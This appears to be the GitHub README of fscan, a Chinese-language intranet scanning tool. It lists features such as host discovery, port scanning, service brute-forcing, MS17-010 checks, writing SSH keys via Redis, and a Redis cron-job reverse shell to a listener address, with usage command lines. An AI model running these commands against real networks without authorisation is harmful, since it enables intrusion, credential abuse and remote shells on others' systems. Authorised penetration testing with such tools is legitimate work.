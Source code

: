 # fscan

一款内网扫描工具，方便一键大保健。  
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写私钥、计划任务反弹shell、读取win网卡信息等。  
趁着最近有空，用go把f-scrack重构了一遍。使用go来编写，也有更好的扩展性及兼容性。  
还在逐步增加功能，欢迎各位师傅提意见。

## usege
``` 
go run main.go -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写私钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
```

`fscan.exe -h 192.168.x.x`
![](image/1.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写私钥)`
![](image/2.png)


`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)


`fscan.exe -h 192.168.x.x (ms17010、读取网卡信息)`
![](image/4.png)


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   